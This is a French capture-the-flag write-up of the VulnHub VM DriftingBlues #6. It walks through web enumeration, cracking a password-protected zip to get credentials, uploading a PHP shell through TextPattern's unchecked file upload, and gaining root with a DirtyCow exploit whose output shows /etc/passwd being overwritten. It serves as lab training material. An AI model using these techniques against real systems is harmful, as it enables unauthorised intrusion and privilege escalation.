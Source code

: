 # Solution du CTF DriftingBlues #6 de VulnHub

Quick
-----

Petite présentation tout de même avant d’enchaîner en vitesse grand V. [Ce CTF](https://www.vulnhub.com/entry/driftingblues-6,672/) créé par [tasiyanci](https://twitter.com/tasiyanci) est un boot2root récupérable par VulnHub et de difficulté facile.  

La VM fait tourner un site qui nous accueille avec le message suivant :  

```plain
Drifting Blues Tech
please don't hack
enough is enough!!!
```

Amusant vu qu'on est sur le 6ème opus de cette saga de CTF. Oui quelque part on s'acharne :D   

Je lance Wapiti dessus avec tous les modules dispos. Le buster intégré me remonte pas mal de choses intéressantes :  

```plain
[*] Lancement du module buster 
Found webpage http://192.168.56.11/index.html 
Found webpage http://192.168.56.11/robots.txt 
Found webpage http://192.168.56.11/db 
Found webpage http://192.168.56.11/index 
Found webpage http://192.168.56.11/robots 
Found webpage http://192.168.56.11/textpattern/ 
Found webpage http://192.168.56.11/textpattern/LICENSE.txt 
Found webpage http://192.168.56.11/textpattern/index.php 
Found webpage http://192.168.56.11/textpattern/css.php 
Found webpage http://192.168.56.11/textpattern/README.txt 
Found webpage http://192.168.56.11/textpattern/images/ 
Found webpage http://192.168.56.11/textpattern/themes/ 
Found webpage http://192.168.56.11/textpattern/files/ 
Found webpage http://192.168.56.11/textpattern/README 
Found webpage http://192.168.56.11/textpattern/textpattern/ 
Found webpage http://192.168.56.11/textpattern/rpc/ 
Found webpage http://192.168.56.11/textpattern/LICENSE
```

TextPattern est un CMS et le README nous indique qu'il est ici en version 4.8.3. Ça tombe bien il y a sur exploit-db des exploits [comme celui ci](https://www.exploit-db.com/exploits/48943) pour cette version du logiciel.  

L'exploitation nécessite toutefois un compte que l'on a pas. Heureusement on trouve une piste dans le fichier *robots.txt* :  

```plain
User-agent: *
Disallow: /textpattern/textpattern

dont forget to add .zip extension to your dir-brute
;)
```

Je m'exécute :  

```plain
feroxbuster -u http://192.168.56.11/ -w /fuzzdb/discovery/predictable-filepaths/filename-dirname-bruteforce/raft-large-words.txt -n -x php,txt,zip,html
```

Il en ressort une archive spammer.zip protégée par mot de passe. Je génère le hash correspondant avec *zip2john* et *John the Ripper* casse ce dernier instantanément :  

```plain
myspace4         (spammer.zip/creds.txt)
```

Le fichier *creds.txt* obtenu contient des identifiants : *mayer:lionheart*.  

Sans surprise ils permettent de se connecter sur l'appli web. Maintenant parlons de l'exploit pour TextPattern. En le lisant on comprend qu'il ne fait rien de plus qu'utiliser la fonctionnalité d'upload qui ne vérifie pas le type de fichier.  

Pas besoin d'exploit donc, on va sur *Content* puis *Files*. Ensuite on sélectionne le fichier, on upload et voilà un shell bêtement à l'adresse */textpattern/files/shell.php*.  

Une fois un shell plus civilisé obtenu (merci *ReverseSSH*) je fouille sur le système et constate surtout qu'il n'y a pas d'utilisateurs classiques (disposant d'un dossier dans */home*). De plus LinPEAS se montre assez silencieux si ce n'est pour les exploits touchant la distribution.  

C'est de toute évidence le cheminement attendu car si un utilisateur avait été présent nous aurions pu passer outre en utilisant directement un exploit pour le kernel.  

Plus qu'à prendre un des exploits pour [DirtyCow](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs) :  

```plain
www-data@driftingblues:/tmp$ ./dirty g0tr00t 
/etc/passwd successfully backed up to /tmp/passwd.bak 
Please enter the new password: g0tr00t 
Complete line: 
firefart:fihv2UhZG2gL6:0:0:pwned:/root:/bin/bash 

mmap: 7f91e30e8000 
madvise 0 

ptrace 0 
Done! Check /etc/passwd to see if the new user was created. 
You can log in with the username 'firefart' and the password 'g0tr00t'. 

DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd 
Done! Check /etc/passwd to see if the new user was created. 
You can log in with the username 'firefart' and the password 'g0tr00t'. 

DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
firefart@driftingblues:/tmp# cd /root/ 
firefart@driftingblues:~# ls 
flag.txt 
firefart@driftingblues:~# cat flag.txt  

░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄ 
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄ 
░░░░█░░░░░░░░░░░░░░░░░░░░░░█ 
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█ 
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█ 
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█ 
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█ 
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█ 
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█ 
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█ 
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█ 
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█ 
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█ 
░░▐▌░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█ 
░░░█▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█ 
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀ 
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄ 
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█ 
░░█░░▌░█░░█░░█░░░█░░█░░█ 
░░█░░▀▀░░██░░█░░░█░░█░░█ 
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█ 

congratulations!

```


*Published January 20 2022 at 22:38*